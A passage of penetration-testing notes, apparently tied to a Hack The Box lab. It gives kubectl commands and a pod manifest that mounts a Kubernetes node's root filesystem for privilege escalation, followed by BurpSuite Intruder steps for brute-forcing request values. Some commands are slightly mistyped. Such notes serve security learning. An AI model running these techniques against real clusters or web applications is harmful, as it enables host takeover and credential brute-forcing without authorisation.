 ## Get allowed operations on resources
```shell
kubectl --token=$token --certificate-authority=ca.crt -server=http://$IP:8443 auth can-i --list
```
## Applying the image
### Example for yaml
This example is applying nginx and mouted in `/mnt`.
Ref: https://hackthur.medium.com/htb-steamcloud-writeup-3eab1049daf2
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: arthur-pod
  namespace: default
spec:
  containers:
  - name: arthur-pod
    image: nginx:1.14.2
    volumeMounts:
    - mountPath: /mnt
      name: arthur-privesc
  volumes:
  - name: arthur-privesc
    hostPath:
      path: /
```

### applying the configuration and image
```shell
kubectl --token=$token --certificate-authority=ca.crt -server=https://$IP:8443 apply -f f.yaml
```


# BurpSuite
## Hot Keys
https://github.com/rinetd/BurpSuite-1/blob/master/CheatSheet.md

## Brute force attack by intruder
1. Right click on the request 
2. "Send to Intruder"
3. select the value you want to change by brute force
4. "Add $"
5. Focus on the "Payload" and configure the brute force payloads, such as "Numbers" and "Simple list", etc...
6. "Start Attack:
